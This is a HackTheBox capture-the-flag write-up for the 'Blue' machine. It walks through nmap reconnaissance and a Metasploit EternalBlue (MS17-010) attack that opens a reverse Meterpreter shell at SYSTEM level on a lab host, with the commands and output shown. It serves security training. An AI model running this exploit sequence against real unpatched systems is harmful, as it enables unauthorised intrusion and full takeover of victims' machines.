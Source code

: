 # HackTheBox - Blue

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | HackTheBox |
| **Challenge Name** | Blue |
| **Category** | Windows Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | ch4p |
| **Date Completed** | 2025-08-18 |

## Objective 🎯

Blue is a Windows machine that is vulnerable to the EternalBlue exploit (MS17-010). The goal is to gain initial access and escalate privileges to obtain both user and root flags. Classic Windows exploitation! 💻

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.40
- **OS**: Windows 7/Server 2008
- **Vulnerability**: MS17-010 (EternalBlue)

### Tools Used
- Nmap
- Metasploit
- EternalBlue exploit

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.40
```

## Methodology

### Step 1: Port Scan
Perform a comprehensive port scan to identify open services.

**Command/Code:**
```bash
nmap -sC -sV 10.10.10.40
```

**Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-03 10:00 UTC
Nmap scan report for 10.10.10.40
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows 7; CPE: cpe:/o:microsoft:windows_7
```

### Step 2: SMB Version Detection
Check the SMB version to confirm vulnerability.

**Command/Code:**
```bash
nmap --script smb-protocols 10.10.10.40
```

**Output:**
```
Host script results:
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.02
|     2.10
|     3.00
|     3.02
|   compression: 
|     LZNT1
|   encryption: 
|   signing: 
|     disabled
```

### Step 3: EternalBlue Exploitation
Use Metasploit to exploit the MS17-010 vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[*] 10.10.10.40:445 - Connection established for exploitation.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[*] 10.10.10.40:445 - Sending SMBv2 buffers
[*] 10.10.10.40:445 - Sending final payload
[*] Sending stage (201320 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49158) at 2024-09-03 10:05:23 +0000
```

### Step 4: Post-Exploitation
Once we have a Meterpreter session, gather information and find flags.

**Command/Code:**
```bash
getuid
sysinfo
shell
whoami
```

**Output:**
```
Server username: NT AUTHORITY\SYSTEM
Computer        : HARIS-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

### Step 5: Find User Flag
Search for the user flag.

**Command/Code:**
```bash
dir C:\Users
dir C:\Users\haris\Desktop
type C:\Users\haris\Desktop\user.txt
```

**Output:**
```
[REDACTED]
```

### Step 6: Find Root Flag
Search for the root flag.

**Command/Code:**
```bash
dir C:\Users\Administrator\Desktop
type C:\Users\Administrator\Desktop\root.txt
```

**Output:**
```
[REDACTED]
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

### Complete Walkthrough
1. Perform port scan to identify open services
2. Confirm SMB vulnerability (MS17-010)
3. Use Metasploit EternalBlue exploit
4. Gain SYSTEM privileges through the exploit
5. Navigate to user directories to find flags
6. Extract both user and root flags

## Key Learnings

- Understanding the EternalBlue vulnerability (MS17-010)
- Using Metasploit for Windows exploitation
- Post-exploitation techniques with Meterpreter
- Windows privilege escalation concepts
- SMB protocol vulnerabilities

## Tools and Resources

### Tools Used
- **Nmap**: Network scanning and service detection
- **Metasploit**: Exploitation framework
- **EternalBlue**: MS17-010 exploit module

### References
- [MS17-010 Security Bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
- [EternalBlue Exploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

## Screenshots

[Add screenshots of nmap scan, Metasploit exploitation, and flag extraction here]

## Tags

`#hackthebox` `#windows` `#eternalblue` `#ms17-010` `#smb` `#metasploit` `#easy`
